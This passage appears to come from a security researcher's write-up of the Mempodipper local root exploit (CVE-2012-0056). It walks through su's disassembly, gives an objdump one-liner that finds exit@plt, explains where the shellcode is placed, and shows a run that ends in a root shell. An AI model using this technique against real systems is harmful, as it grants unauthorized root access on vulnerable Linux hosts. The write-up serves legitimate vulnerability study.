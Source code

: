 It gets the error string here:

      403677:       ba 05 00 00 00          mov    $0x5,%edx
      40367c:       be ff 64 40 00          mov    $0x4064ff,%esi
      403681:       31 ff                   xor    %edi,%edi
      403683:       e8 e0 ed ff ff          callq  402468 (dcgettext@plt)

And then writes it to stderr:

      403688:       48 8b 3d 59 51 20 00    mov    0x205159(%rip),%rdi        # 6087e8 (stderr)
      40368f:       48 89 c2                mov    %rax,%rdx
      403692:       b9 20 88 60 00          mov    $0x608820,%ecx
      403697:       be 01 00 00 00          mov    $0x1,%esi
      40369c:       31 c0                   xor    %eax,%eax
      40369e:       e8 75 ea ff ff          callq  402118 (__fprintf_chk@plt)

Closes the log:

      4036a3:       e8 f0 eb ff ff          callq  402298 (closelog@plt)

And then exits the program:

      4036a8:       bf 01 00 00 00          mov    $0x1,%edi
      4036ad:       e8 c6 ea ff ff          callq  402178 (exit@plt)

We therefore want to use `0x402178`, which is the exit function it calls. We can, in an exploit, automate the finding of the <tt>exit@plt</tt> symbol with a simple bash one-liner:

    $ objdump -d /bin/su|grep '<exit@plt>'|head -n 1|cut -d ' ' -f 1|sed 's/^[0]*\([^0]*\)/0x\1/'
    0x402178

So naturally, we want to write to `0x402178` minus the number of letters in the string "Unknown id: ", so that our shellcode is placed at exactly the right place.

The shellcode should be simple and standard. It sets the uid and gid to 0 and <tt>exec</tt>s into a shell. If we want to be clever, we can reopen stderr by, prior to <tt>dup2</tt>ing the memory fd to stderr, we choose another fd to dup stderr to, and then in the shellcode, we <tt>dup2</tt> that other fd <i>back</i> to stderr.

In the end, the exploit works like a charm with total reliability:

    CVE-2012-0056 $ ls
    build-and-run-exploit.sh  build-and-run-shellcode.sh  mempodipper.c  shellcode-32.s  shellcode-64.s
    CVE-2012-0056 $ gcc mempodipper.c -o mempodipper
    CVE-2012-0056 $ ./mempodipper 
    ===============================
    =          Mempodipper        =
    =           by zx2c4          =
    =         Jan 21, 2012        =
    ===============================
    
    [+] Waiting for transferred fd in parent.
    [+] Executing child from child fork.
    [+] Opening parent mem /proc/6454/mem in child.
    [+] Sending fd 3 to parent.
    [+] Received fd at 5.
    [+] Assigning fd 5 to stderr.
    [+] Reading su for exit@plt.
    [+] Resolved exit@plt to 0x402178.
    [+] Seeking to offset 0x40216c.
    [+] Executing su with shellcode.
    sh-4.2# whoami
    root
    sh-4.2# 
